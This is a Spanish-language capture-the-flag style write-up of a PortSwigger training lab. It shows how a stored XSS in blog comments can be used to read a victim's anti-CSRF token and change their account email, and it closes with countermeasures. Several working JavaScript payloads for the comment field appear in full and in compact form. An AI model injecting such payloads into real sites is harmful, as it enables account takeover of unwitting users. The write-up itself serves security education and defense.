


# Writeup: Exploiting XSS to bypass CSRF defenses (PortSwigger)

- **Lab**: Exploiting XSS to bypass CSRF defenses
- **URL**: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
- **Categoría**: XSS -> Exploiting -> CSRF token theft
- **Dificultad**: Practitioner
- **Credenciales**: `wiener:peter`

---

## 1. Objetivo

El lab contiene un **stored XSS** en la función de comentarios del blog. La página de cuenta (`/my-account`) permite cambiar el correo electrónico, pero protege la acción con un token anti-CSRF en un input oculto.

Para resolverlo hay que usar el XSS almacenado para ejecutar JavaScript en el navegador de la víctima, leer `/my-account` con la sesión de esa víctima, extraer el token `csrf` y enviar un `POST /my-account/change-email` con un correo controlado por el atacante.

### Lo importante antes de tocar nada

- **Punto de inyección**: comentario de blog, vulnerabilidad stored XSS.
- **Acción objetivo**: cambio de email en `/my-account/change-email`.
- **Defensa presente**: token anti-CSRF por formulario (`csrf=<valor>`).
- **Bypass**: XSS convierte una protección de "one-way CSRF" en comunicación "two-way": el script puede enviar requests y leer respuestas same-origin.
- **Restricción práctica**: no reutilizar un email que ya exista. Si durante pruebas cambias tu propio email, usa otro email para el payload final de la víctima.

---

## 2. Reconocimiento

### 2.1 Confirmar la acción sensible

Tras iniciar sesión con `wiener:peter`, la página `/my-account` muestra el formulario de cambio de correo. El HTML contiene un input oculto con el token CSRF:

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="wiener@normal-user.net">
    <input required type="hidden" name="csrf" value="TOKEN_AQUI">
    <button class="button" type="submit">Update email</button>
</form>
```

La request legítima queda así:

```http
POST /my-account/change-email HTTP/2
Host: LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=...

email=nuevo@example.com&csrf=TOKEN_AQUI
```

### 2.2 Confirmar por qué un CSRF clásico no basta

Un PoC CSRF directo fallaría porque el atacante no conoce el token de la víctima:

```html
<form action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@example.com">
  <input type="hidden" name="csrf" value="TOKEN_DESCONOCIDO">
</form>
<script>document.forms[0].submit()</script>
```

El token sí está disponible para JavaScript ejecutándose dentro del origen del lab. Ahí entra el XSS: el payload almacenado en el comentario corre como si fuera código de la aplicación, por lo que puede hacer `GET /my-account`, leer el HTML y reutilizar el token.

### 2.3 Confirmar el stored XSS

En un post del blog, enviar un comentario de prueba:

```html
<script>alert(1)</script>
```

Al volver a cargar el post, el `alert(1)` se ejecuta. Esto confirma tres cosas:

1. El comentario se almacena y se sirve a otros usuarios.
2. La aplicación no neutraliza etiquetas `<script>` en el campo vulnerable.
3. El payload final puede vivir como JavaScript completo, no como un bypass de contexto limitado.

---

## 3. Diseño del ataque

La cadena completa necesita dos requests desde el navegador de la víctima:

1. `GET /my-account` para obtener el HTML de la página de cuenta.
2. `POST /my-account/change-email` con el token extraído y el nuevo email.

Como ambos endpoints están en el mismo origen donde corre el stored XSS, `XMLHttpRequest` o `fetch` pueden leer la respuesta del primer request sin CORS. Esa lectura de respuesta es justo lo que un CSRF tradicional no puede hacer.

### Payload base

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=attacker@example.com');
  };
  req.open('GET', '/my-account', true);
  req.send();
</script>
```

### Payload compacto para el comentario

Para pegarlo en el comentario, conviene dejarlo en una sola línea:

```html
<script>var req=new XMLHttpRequest();req.onload=function(){var token=this.responseText.match(/name="csrf" value="(\w+)"/)[1];var changeReq=new XMLHttpRequest();changeReq.open('POST','/my-account/change-email',true);changeReq.setRequestHeader('Content-Type','application/x-www-form-urlencoded');changeReq.send('csrf='+token+'&email=attacker@example.com')};req.open('GET','/my-account',true);req.send();</script>
```

> Cambia `attacker@example.com` por un email único antes de entregar el exploit final. PortSwigger rechaza emails ya usados.

---

## 4. Por qué funciona

### 4.1 El token anti-CSRF sí existe y sí protege contra CSRF puro

El token cumple su rol contra una página externa: un atacante que hospeda HTML fuera del lab puede inducir un POST autenticado, pero no puede leer `/my-account` para obtener el token actual de la víctima. Sin token válido, el servidor rechaza el cambio.

### 4.2 XSS rompe la premisa del token

El modelo de seguridad del token asume que el atacante no puede leer páginas autenticadas de la víctima. Con XSS almacenado en el mismo origen, esa premisa deja de ser cierta:

- El script malicioso se ejecuta en `https://LAB.web-security-academy.net`.
- El navegador adjunta la cookie `session` de la víctima a `GET /my-account`.
- La Same-Origin Policy permite leer `responseText` porque el script y la respuesta comparten origen.
- El token sale del HTML con una expresión regular.
- El script envía el POST con token y sesión válidos.

### 4.3 El ataque no necesita robar cookies

No hace falta leer `document.cookie`. Incluso si la cookie de sesión tiene `HttpOnly`, el navegador la envía automáticamente en requests same-origin. El payload sólo necesita operar dentro del navegador de la víctima mientras su sesión esté activa.

---

## 5. Resolución

1. Abrir el lab e iniciar sesión con `wiener:peter`.
2. Entrar a cualquier post del blog.
3. Enviar un comentario con el payload compacto, usando un email único:

```html
<script>var req=new XMLHttpRequest();req.onload=function(){var token=this.responseText.match(/name="csrf" value="(\w+)"/)[1];var changeReq=new XMLHttpRequest();changeReq.open('POST','/my-account/change-email',true);changeReq.setRequestHeader('Content-Type','application/x-www-form-urlencoded');changeReq.send('csrf='+token+'&email=attacker-001@example.com')};req.open('GET','/my-account',true);req.send();</script>
```

4. Publicar el comentario.
5. Esperar a que la víctima simulada visite el post con comentarios; en este lab ocurre tras publicar el comentario malicioso.
6. El navegador de la víctima ejecuta el payload, obtiene su token CSRF y cambia su email.



Si el lab no se marca como resuelto, casi siempre es por una de estas razones:

- El email ya estaba usado. Cambiarlo por otro valor único.
- El regex no coincide porque la app cambió el nombre del input. Confirmar en `/my-account` si sigue siendo `name="csrf" value="..."`.
- El comentario no aceptó la etiqueta `<script>` completa. Confirmar viendo el post y revisando el HTML servido.

---

## 6. Resumen de la cadena



Tres ideas para llevarse:

1. **CSRF token no mitiga XSS**. El token evita que un sitio externo fabrique una request válida, pero no resiste a código ejecutado dentro del mismo origen.
2. **XSS vuelve bidireccional un ataque tipo CSRF**. El atacante no sólo induce requests; también lee respuestas y encadena datos dinámicos.
3. **HttpOnly no bloquea esta cadena**. HttpOnly impide leer la cookie con JavaScript, pero no impide que el navegador la adjunte a requests same-origin iniciadas por JavaScript.

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **Eliminar el stored XSS en comentarios**. Codificar output según contexto al renderizar comentarios. Para contenido de usuario que admite HTML, usar un sanitizador allow-list maduro como DOMPurify en el lado adecuado y con configuración estricta.
2. **Content Security Policy estricta**. Una CSP sin `'unsafe-inline'`, con nonces o hashes para scripts legítimos, bloquea `<script>` inyectados en comentarios. No sustituye al output encoding, pero reduce el impacto de XSS almacenado.
3. **Reautenticación para cambios críticos**. Pedir contraseña o MFA para cambiar email limita el impacto de un XSS que sólo tiene la sesión actual.
4. **Tokens anti-CSRF bien implementados**. Siguen siendo necesarios contra CSRF puro: tokens únicos, secretos, ligados a sesión y validados server-side. La lección del lab es que no son una defensa contra XSS.
5. **Defensas de sesión complementarias**. `HttpOnly`, `Secure` y `SameSite` reducen otros vectores, pero no deben tratarse como contención suficiente si existe XSS same-origin.
6. **Separar capacidades sensibles**. APIs críticas pueden exigir cabeceras no simples, comprobación fuerte de `Origin`, step-up auth y auditoría de cambios de cuenta. Son capas adicionales, no sustitutos del arreglo del XSS.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Exploiting XSS to bypass CSRF defenses*. https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
- PortSwigger Web Security Academy. (s.f.). *Exploiting cross-site scripting vulnerabilities*. https://portswigger.net/web-security/cross-site-scripting/exploiting
- PortSwigger Web Security Academy. (s.f.). *Bypassing CSRF token validation*. https://portswigger.net/web-security/csrf/bypassing-token-validation
- OWASP Foundation. (s.f.). *Cross Site Scripting Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Cross-Site Request Forgery Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md)
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md)
